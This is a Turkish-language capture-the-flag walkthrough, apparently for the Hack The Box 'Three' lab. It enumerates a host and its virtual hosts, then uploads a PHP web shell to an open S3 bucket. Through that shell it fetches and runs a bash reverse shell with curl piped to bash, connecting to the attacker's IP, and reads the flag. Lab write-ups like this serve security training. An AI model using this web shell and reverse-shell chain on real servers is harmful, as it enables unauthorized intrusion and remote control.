 # Three

!!! info "Target IP Address"

    10.129.227.248

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.227.248 -p- -Pn -T5 --open
```

```text title="Output" hl_lines="7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 00:28 +03
Nmap scan report for 10.129.227.248
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.73 second
```

Web tarayıcısında [http://10.129.227.248](http://10.129.227.248) adresine gidildiğinde yönlendirilen siteye (`thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

Ardından aşağıdaki komutu çalıştır:

```bash
gobuster vhost --append-domain -u thetoppers.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]

...SNIP...
```

!!! info "Amazon S3"

    Gobuster ile elde edilen vHost bilgisini Google üzerinde aratırsak, bundan sonraki adımlarımızın [Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html) ile ilgili olacağını öğrenebiliriz.

Web tarayıcısında S3 kovasına (`s3.thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

AWS yapılandırmasını gerçekleştir (sorulduğunda her seçenek için `temp` değerini verebilirsin):

```bash
aws configure
```

```text title="Output"
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

Aşağıdaki one-liner komutunu PHP dosyası olarak kaydet:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Oluşturulan bu dosyayı S3 kovasına (bucket) yükle:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Ardından aşağıdaki reverse shell dosyasını oluştur:

```bash title="shell.sh" linenums="1"
#!/bin/bash
bash -i >&/dev/tcp/10.10.14.253/1337 0>&1
```

Netcat ile 1337 numaralı port üzerinden dinlemeye başla:

```bash
nc -nvlp 1337
```

Reverse shell dosyasının bulunduğu dizinde bir Python HTTP sunucusu başlat:

```bash
python -m http.server 8000
```

Web tarayıcısında [https://thetoppers.htb/shell.php?cmd=curl%2010.10.14.253:8000/shell.sh|bash](https://thetoppers.htb/shell.php?cmd=curl%2010.10.14.253:8000/shell.sh|bash) adresine giderek Netcat üzerinde reverse shell elde et ve bu shell üzerinde aşağıdaki komut ile bayrağı ele geçir:

```bash
cat /var/www/flag.txt
```

